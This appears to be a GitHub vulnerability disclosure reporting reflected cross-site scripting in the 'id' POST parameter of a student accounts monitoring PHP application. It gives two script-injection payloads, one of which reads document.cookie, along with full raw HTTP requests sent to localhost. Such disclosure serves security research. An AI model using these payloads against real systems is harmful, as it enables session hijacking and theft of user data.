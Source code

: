 # Monitoring of Students Cyber Accounts System v1.0 has Cross-site scripting (reflected)

BUG_Author: Xue Yue

Vulnerability url: /MSCAB/modules/balance/index.php?view=balancelist

POST parameter 'id' exists XSS vulnerability

Payload1:id="><script>alert(111)</script>

```
POST /MSCAB/modules/balance/index.php?view=balancelist HTTP/1.1
Host: localhost
Content-Length: 50
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/modules/balance/index.php?view=balancelist
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

id=%22%3E%3Cscript%3Ealert%28111%29%3C%2Fscript%3E
```

![image](https://github.com/xyaly163/bug_report/blob/main/picture/xss1.png)

Payload2:id="><script>alert(document.cookie)</script>

```
POST /MSCAB/modules/balance/index.php?view=balancelist HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/modules/balance/index.php?view=balancelist
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

id=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E
```

![image](https://github.com/xyaly163/bug_report/blob/main/picture/xss2.png)
